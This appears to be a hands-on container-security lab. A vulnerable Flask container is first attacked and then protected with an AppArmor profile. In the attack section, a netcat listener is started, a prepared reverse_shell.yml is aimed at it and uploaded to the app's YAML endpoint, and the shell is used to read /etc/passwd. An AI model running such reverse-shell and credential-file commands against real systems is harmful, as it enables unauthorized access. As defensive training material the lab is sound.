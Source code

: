 # AppArmor

>Runtime Protection for Container Workloads

### **Lab Image : Containers**

---
## Without AppArmor

* Step 1:  Navigate to the `AppArmor` directory.

```
cd /root/container-training/Container/AppArmor/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```
* Step 3: start a `netcat` listener.

```commandline
nc -l 1337
```

* Step 4: Go to the left pane using `ctrl` + `b` and then `left arrow key`

* Step 5: Run docker container

```commandline
docker run -d -p 5050:5050 abhaybhargav/vul_flask
```

* Step 6: `cd` into the `cd /root/container-training/Container/AppArmor/`

```commandline
cd /root/container-training/Container/AppArmor/
``` 

* Step 7: Change the reverse shell ip 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.yml
```

* Step 8: Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

* Step 9: If the command has successfully executed, the reverse tcp shell in the right panel should be working. To run commands on the shell, switch to the right panel. using `ctrl` + `b` and then `right arrow key` 


* Step 10: With a reverse-shell on the container, commands can be run on it.

```commandline
ls
```

```commandline
cat /etc/passwd
```

```commandline
cat app.py
```

### Teardown

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

## With AppArmor
> Let's try and prevent the same attack using `Apparmor`

* Step 1:  Navigate to the `AppArmor` directory.

```
cd /root/container-training/Container/AppArmor/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```
* Step 3: start a `netcat` listener.

```commandline
nc -l 1337
```

* Step 4: Go to the left pane using `ctrl` + `b` and then `left arrow key`


* Step 5: Load the apparmor profile to the provisioned server

```commandline
apparmor_parser -r -W vul-flask-armor
```

* Step 6: Launch the same `abhaybhargav/vul_flask` container, with the apparmor profile attached.

```commandline
docker run -d --name vul_flask -p 5050:5050 --security-opt apparmor=vul-flask-armor abhaybhargav/vul_flask
```

* Step 7: `cd` into the `cd /root/container-training/Container/AppArmor/`

```commandline
cd /root/container-training/Container/AppArmor/
``` 

* Step 8: Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

> **NOTE**: It can be observed that the reverse-shell was unsuccessful

* Step 9: Go to the right pane using `ctrl` + `b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

* Step 11: Go to the left pane using `ctrl` + `b` and then `left arrow key`

* Step 12: Try `exec` into the container

```commandline
docker exec -it vul_flask bash
```

* Step 13:  Inside the container environment, try to create or access files.

```commandline
cat /etc/passwd
```
```commandline
touch shell.py
```
```commandline
touch /tmp/shell.py
```

> **NOTE**: The reverse-shell and the commands do not work because we enabled the runtime security profile with AppArmor

### Teardown

* Step 14: Exit from the container

```commandline
exit
```
* Step 15: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 16: Stop all containers

```commandline
clean-docker
```

### Reading Material/References:

* https://docs.docker.com/engine/security/apparmor/

* https://gitlab.com/apparmor/apparmor
